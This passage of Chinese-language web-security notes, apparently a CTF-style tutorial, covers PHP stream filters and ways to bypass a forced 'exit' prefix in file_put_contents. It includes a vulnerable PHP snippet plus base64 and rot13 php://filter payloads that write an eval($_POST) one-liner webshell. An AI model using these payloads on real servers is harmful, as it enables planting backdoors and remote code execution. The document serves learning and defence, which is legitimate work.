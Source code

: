 
```
Note: 压缩过滤器 不产生命令行工具如 gzip的头和尾信息。只是压缩和解压数据流中的有效载荷部 分。zlib.* 压缩过滤器自 PHP 版本 5.1.0起可用，在激活 zlib的前提下。也可以通过安装来自 » PECL的 » zlib_filter包作为一个后门在 5.0.x版中使用。此过滤器在 PHP 4 中 不可用。
```

![image](https://user-images.githubusercontent.com/76896357/115670866-776f7f00-a37c-11eb-9dce-8556e80c279e.png)

### 加密过滤器：

crypt.*和 mdecrypt.*使用 libmcrypt 提供了对称的加密和解密。这两组过滤器都支持 mcrypt 扩展库中相同的算法，格式为 mcrypt.ciphername，其中 ciphername是密码的名字，将被传递给 mcrypt_module_open()。有以下五个过滤器参数可用：

![image](https://user-images.githubusercontent.com/76896357/115671728-65daa700-a37d-11eb-880f-f334560979c8.png)

细则查看加密方式：

https://www.php.net/manual/zh/filters.encryption.php



## 死亡绕过

1. bypass不同变量

```
<?php $filename=$_GET['filename']; 

$content=$_GET['content'];

file_put_contents($filename,"<?php exit();".$content);
```
由于在文件写入之前，添加了exit，导致我们写入的php一句话无法执行


绕过方法:

* 利用php协议，对所要写入的文件作出规定，比如exit()是和我们输入的内容一起写入的，那么利用过滤器，可以一起对输入的文件流作出过滤

构建payload:

```
?filename=php://filter/convert.base64-decode/resource=a.php&content=aPD9waHAgZXZhbCgkX1BPU1RbYV0pOw==

```

因此，这种情况下，exit()语句同样被进行了base64解码，但是我们输入的php语句是经过base64加密的，因此，一旦解密就成了一句话木马。。。。


rot13绕过

* str_rot13()

str_rot13()函数对字符进行移动13位，第一次移动改变，再移动一次，返回原字符
 <?php exit; 在经过rot13编码后会变成 <?cuc rkvg(); ，不过这种利用手法
的前提是PHP不开启short_open_tag。

```
?filename=php://filter/write=string.rot13/resource=2.php&content=<?cuc riny($_CBFG[n]);
```
直接写入


注意：在关闭 short_open_tag = Off 的情况下，可以





